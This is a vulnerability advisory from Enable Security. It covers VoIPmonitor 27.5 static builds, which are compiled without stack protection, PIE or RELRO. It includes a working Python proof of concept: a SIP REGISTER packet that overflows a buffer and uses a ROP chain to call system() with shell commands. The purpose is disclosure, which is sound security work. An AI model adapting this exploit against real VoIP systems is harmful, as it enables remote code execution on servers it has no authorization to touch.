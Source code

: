 # VoIPmonitor static builds are compiled without any standard memory corruption protection

- Fixed versions: N/A
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-04-voipmonitor-staticbuild-memory-corruption-protection
- VoIPmonitor Security Advisory: none
- Tested vulnerable versions: 27.5
- Timeline:
    - Report date: 2021-02-10 & 2021-02-13
	- Enable Security advisory: 2021-03-15

## Description

The binaries available for download at <https://www.voipmonitor.org/download> are built without any memory corruption protection in place. The following is output from the tool `hardening-check`:

```
hardening-check voipmonitor:
 Position Independent Executable: no, normal executable!
 Stack protected: no, not found!
 Fortify Source functions: unknown, no protectable libc functions used
 Read-only relocations: no, not found!
 Immediate binding: no, not found!
 Stack clash protection: unknown, no -fstack-clash-protection instructions found
 Control flow integrity: unknown, no -fcf-protection instructions found!
```

When stack protection together with Fortify Source and other protection mechanisms are in place, exploitation of memory corruption vulnerabilities normally results in a program crash instead of leading to remote code execution. Most modern compilation systems create executable binaries with these features built-in by default. When these features are not used, attackers may easily exploit memory corruption vulnerabilities, such as buffer overflows, to run arbitrary code. In this advisory we will demonstrate how a buffer overflow reported in a separate advisory, could be abused to run arbitrary code because of the lack of standard memory corruption protection in the static build releases of VoIPmonitor.

The vendor has explained that:

> we are not going to enable the protection in the static builds as the speed is critical on many installations

> Our static build also uses tcmalloc (recommended version) which is required for high packet/second processing as the libc allocator is not fast enough especially on NUMA systems. For high packet/second traffic FORTIFY_SOURCE can introduce a lot of additional CPU cycles. If using custom builds with FORTIFY_SOURCE - they should compare if the sniffer did not introduced higher CPU usage.

While we understand the vendor's position, we are issuing an advisory to ensure that end users can make informed risk-based decisions.

## Impact

The lack of standard memory corruption protection mechanisms means that such vulnerabilities may lead to remote code execution.

## How to reproduce the issue

1. Execute the static build of VoIPmonitor (such as https://www.voipmonitor.org/current-stable-sniffer-static-64bit.tar.gz)
2. Start the live sniffer from the VOIPMonitor GUI or via the manager on port 5029
3. Execute the following Python program so that VOIPMonitor is able to capture the packet
4. Observe the payload being executed by the `voipmonitor` process, i.e. the following:
    - current user is printed due to execution of the `whoami` command
    - `h4x0r was here` is also printed
    - a file has been created in `/tmp/woot`

```python
import struct
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

payload_size=32607
# Pad with As
payload = b'A' * 703
payload_size-=len(payload)

# Write system payload
cmd=b'whoami;echo "h4x0r was here";touch /tmp/woot\x00'
payload+=cmd
payload_size-=len(cmd)

# Pad some more so that we can overwrite the save_packet_sql's function return address
payload += b'A' * payload_size

# Call a ROP gadged that increments the value of the RDI register, 
# which will now point to the value set by cmd
payload += struct.pack('<Q', 0x0000000000b222f1)

# Return to system() to execute the value in RDI
payload += struct.pack('<Q', 0xb22fd0)

# Return to exit() to exit gracefully
payload += struct.pack('<Q', 0xf60a20)

msg=b'REGISTER %s SIP/2.0\r\n' % (payload)
msg+=b'Via: SIP/2.0/UDP 192.168.1.132:35393;rport;branch=z9hG4bK-kwtTkrdNAO2Wvw0v\r\n'
msg+=b'Max-Forwards: 70\r\n'
msg+=b'From: <sip:85861710@demo.sipvicious.pro>;tag=mnq1nKGNZHNUkNOG\r\n'
msg+=b'To: <sip:85861710@demo.sipvicious.pro>\r\n'
msg+=b'Call-ID: 93X9dNZO2qdcfpdu\r\n'
msg+=b'CSeq: 1 REGISTER\r\n'
msg+=b'Contact: <sip:85861710@192.168.1.132:35393;transport=udp>\r\n'
msg+=b'Expires: 60\r\n'
msg+=b'Content-Length: 0\r\n'
msg+=b'\r\n'
s.sendto(msg, ('167.71.58.84', 5060))

```

## Solution and recommendations

Users who would like to have standard memory corruption protection for VoIPmonitor should compile the binaries themselves and apply their own upgrades rather than using the upgrade feature from the VoIPmonitor GUI / sensors page.

We recommended the following to the vendor:

> Our recommendation is that standard memory corruption protection be switched on by default in the official binary build of VoIPmonitor. If there are specific requirements for specific systems that require such features to be switched off, then additional binaries should be offered, with adequate documentation of the risks involved.

> Do note that memory corruption vulnerabilities should also be addressed and fixed even if security features, such as Fortify, are used.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick responses and explanations with regards to this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

